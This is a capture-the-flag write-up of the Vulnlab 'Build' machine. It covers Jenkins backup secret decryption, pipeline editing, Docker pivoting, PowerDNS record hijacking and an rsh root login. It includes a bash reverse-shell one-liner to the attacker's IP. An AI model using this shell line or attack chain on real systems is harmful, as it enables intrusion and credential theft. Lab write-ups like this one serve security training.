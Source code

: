 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Build/logo.png
date: 2024-05-24 09:45:47 +07:00
modified: 2024-05-24 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Build, Enumeration, Nmap, Jenkins, Git, Gitea, rsync, Docker Escape, Chisel, ProxyChains, MySQL, Hashcat, PowerDNS, Zone Management, Metasploit, Rlogin, Penetration Testing, Privilege Escalation, Reverse Shell, CI/CD Security]
title: Build - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Build is an **easy** difficulty machine, Where I had to get credentials from a backup file, access the internal network and add new records in order to bypass the docker container. 

# Enumeration
The Nmap scan shows the following ports.
`nmap -p- --min-rate=10000 10.10.67.89`

`nmap -sC -sV -p21,23,80 10.10.67.89 -oA ./nmap/Build`

|Ports|Service
|22| ssh OpenSSH 8.9p1 Ubuntu
|53| Domain PowerDNS
|512| exec
|513| login
|514| shell Netkit rshd
|873| rsync
|3000| ppp?
|3306| mysql
|8081| blackice-icecap

![](https://photos.squarezero.dev/file/abir-images/Build/1.png)

Default creds on ssh didn't work. And MySQL and Rlogin weren't reachable.

![](https://photos.squarezero.dev/file/abir-images/Build/2.png)

Next, I visited Port 3000 and Found Gitea, a self-hosted git service.

![](https://photos.squarezero.dev/file/abir-images/Build/3.png)

After registering to the platform I checked the company repository and found dev repository by buildadm which seems like a Jenkins project.

![](https://photos.squarezero.dev/file/abir-images/Build/4.png)

Next, I check rsync to check the share in port 873 and Found a Jenkins backup file.

`rsync -av rsync://10.10.67.89/backups`
![](https://photos.squarezero.dev/file/abir-images/Build/5.png)

`rsync -av rsync://10.10.67.89/backups .`

![](https://photos.squarezero.dev/file/abir-images/Build/6.png)

# Foothold

In my research of Jenkins, I found out that to decrypt secrets I need master.key, hudson.util.Secret and the XML file containing the secrets. I can also use [Jenkin_offline_decryptor](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt the secret.

[HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

![](https://photos.squarezero.dev/file/abir-images/Build/7.png)

After decrypting the files found in the backup I got the password of buildadm.

![](https://photos.squarezero.dev/file/abir-images/Build/8.png)

Now after logging into the website I can edit the script and get reverse shell after waiting for a little bit.
`sh ''' bash -c 'bash -i >& /dev/tcp/10.8.2.110/1234' '''`

[Jenkins-rce-modifying-pipeline](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-pipeline)

![](https://photos.squarezero.dev/file/abir-images/Build/9.png)

![](https://photos.squarezero.dev/file/abir-images/Build/10.png)


# Docker Escape

Inside the home directory, I found rhosts file which contained some server names. I'm likely inside a docker container. 

![](https://photos.squarezero.dev/file/abir-images/Build/11.png)

Next, I used Chisel in order to connect to internal running services.

![](https://photos.squarezero.dev/file/abir-images/Build/12.png)
![](https://photos.squarezero.dev/file/abir-images/Build/13.png)
![](https://photos.squarezero.dev/file/abir-images/Build/14.png)
![](https://photos.squarezero.dev/file/abir-images/Build/15.png)

I also made sure to change proxychains config file

![](https://photos.squarezero.dev/file/abir-images/Build/16.png)

A lot of the core binary/functions are missing in the docker. I went back to the website and found the internal IP address inside the webhook.

![](https://photos.squarezero.dev/file/abir-images/Build/17.png)


Now I can scan the internal ports.

![](https://photos.squarezero.dev/file/abir-images/Build/18.png)

Default creds can get us access to MySql server.

![](https://photos.squarezero.dev/file/abir-images/Build/19.png)

After enumerating the databases I got the admin hash and more services that are running inside.

```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+ 
| information_schema | 
| mysql              | 
| performance_schema | 
| powerdnsadmin      | 
| sys                | 
+--------------------+ 
5 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SHOW TABLES;
+-------------------------+
| Tables_in_powerdnsadmin |
+-------------------------+
| account                 |
| account_user            |
| alembic_version         |
| apikey                  |
| apikey_account          |
| comments                |
| cryptokeys              |
| domain                  |
| domain_apikey           |
| domain_setting          |
| domain_template         |
| domain_template_record  |
| domain_user             |
| domainmetadata          |
| domains                 |
| history                 |
| records                 |
| role                    |
| sessions                |
| setting                 |
| supermasters            |
| tsigkeys                |
| user                    |
+-------------------------+
23 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SELECT * FROM user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | <REDACTED> | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
1 row in set (0.128 sec)    
MariaDB [powerdnsadmin]> SELECT * FROM records;
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
| id | domain_id | name                 | type | content                                                                                  | ttl  | prio | disabled | ordername | auth |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
|  8 |         1 | db.build.vl          | A    | 172.18.0.4                                                                               |   60 |    0 |        0 | NULL      |    1 |
|  9 |         1 | gitea.build.vl       | A    | 172.18.0.2                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 10 |         1 | intern.build.vl      | A    | 172.18.0.1                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 11 |         1 | jenkins.build.vl     | A    | 172.18.0.3                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 12 |         1 | pdns-worker.build.vl | A    | 172.18.0.5                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 13 |         1 | pdns.build.vl        | A    | 172.18.0.6                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 14 |         1 | build.vl             | SOA  | a.misconfigured.dns.server.invalid hostmaster.build.vl 2024050201 10800 3600 604800 3600 | 1500 |    0 |        0 | NULL      |    1 |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
7 rows in set (0.129 sec)
```

I started scanning the newly found IPs.

![](https://photos.squarezero.dev/file/abir-images/Build/20.png)
![](https://photos.squarezero.dev/file/abir-images/Build/21.png)

PowerDNS running on 172.18.0.6 and the login page was exposed as well.

![](https://photos.squarezero.dev/file/abir-images/Build/22.png)

To access the internal website in the browser I had to create a new socks5 config in ForxyProxy.

![](https://photos.squarezero.dev/file/abir-images/Build/23.png)

Now Im able to to access the website's login page.

![](https://photos.squarezero.dev/file/abir-images/Build/24.png)

I used Hashcat to crack the hash and got the admin password.

![](https://photos.squarezero.dev/file/abir-images/Build/25.png)

After logging in with the admin creds I presented with the zone management dashboard of [build.vl]().

![](https://photos.squarezero.dev/file/abir-images/Build/26.png)
![](https://photos.squarezero.dev/file/abir-images/Build/27.png)

I can redirect the internal admin.build.vl to my IP by adding a new record in the zone management. 
Now I will be able to access the main machine instead of the container.

![](https://photos.squarezero.dev/file/abir-images/Build/28.png)

Using Metasploit rlogin_login module I check to see if default cred combinations work and if root with no passwords can log in.

![](https://photos.squarezero.dev/file/abir-images/Build/29.png)

Now I can log in using rsh client.

Note: Kali removed rsh client, In order to install `sudo apt-get install rsh-redone-client`

![](https://photos.squarezero.dev/file/abir-images/Build/30.png)




